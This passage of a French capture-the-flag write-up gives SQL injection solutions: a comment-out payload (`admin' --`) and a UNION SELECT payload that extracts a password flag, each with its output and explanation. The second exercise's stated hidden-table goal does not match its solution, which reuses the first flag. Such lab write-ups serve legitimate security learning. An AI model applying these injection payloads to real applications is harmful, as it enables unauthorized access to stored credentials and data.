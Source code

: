 **Injection :**

```js
admin' --
```

**Résultat :**

```json
[
  {
    "password": "FLAG{Th1s_is_th3_4dm1n_p4ssw0rd}"
  }
]
```

> FLAG{Th1s_is_th3_4dm1n_p4ssw0rd}

**Explication de l'injection :**\
Ici le problème étant `LIMIT 0`, puisqu'il n'affichera aucune ligne. Il se trouve à la fin de la commande SQL, et notre injection est faisable juste avant ce `LIMIT 0`. On a donc seulement à le commenter pour qu'il ne pose plus problème.

---

### `Exploration`

**Consigne :**\
Now that you are able to recover any data, try to explore the database.

> **Goal : recover the flag from the hidden table.**

**Code présent sur la page :**

```sql
SELECT email FROM users WHERE username = '$name' LIMIT 1;
```

**Injection :**

```sql
x'='x' UNION SELECT password FROM users WHERE password LIKE 'FLAG%'--
```

**Résultat :**

```json
[
  {
    "email": "FLAG{Th1s_is_th3_4dm1n_p4ssw0rd}"
  }
]
```

> FLAG{Th1s_is_th3_4dm1n_p4ssw0rd}

**Explication de l'injection :**\
On applique les 2 dernières injections apprises. En les combinants on peut rechercher ce que l'on veut.

---